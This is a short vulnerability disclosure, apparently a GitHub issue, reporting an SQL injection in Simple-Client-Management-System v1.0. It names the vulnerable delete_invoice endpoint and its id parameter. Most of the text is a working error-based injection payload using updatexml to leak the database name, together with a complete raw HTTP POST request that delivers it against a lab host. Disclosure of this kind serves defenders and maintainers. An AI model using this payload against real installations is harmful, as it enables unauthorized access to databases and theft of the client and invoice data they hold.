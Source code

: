 # Simple-Client-Management-System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15027/simple-client-management-system-php-source-code.html

Vulnerability File: /cms/classes/Master.php?f=delete_invoice

Vulnerability location: /cms/classes/Master.php?f=delete_invoice, id

[+] Payload: id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /cms/classes/Master.php?f=delete_invoice HTTP/1.1
Host: 192.168.1.19
Content-Length: 65
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.19
Referer: http://192.168.1.19/cms/admin/?page=invoice
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=5u3dthmlo3ajo2g7k8pfvb4g8h
Connection: close

id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id
```

![image](https://user-images.githubusercontent.com/54017627/164883167-07b2db51-829a-4777-bf90-f2e18c30f6b0.png)
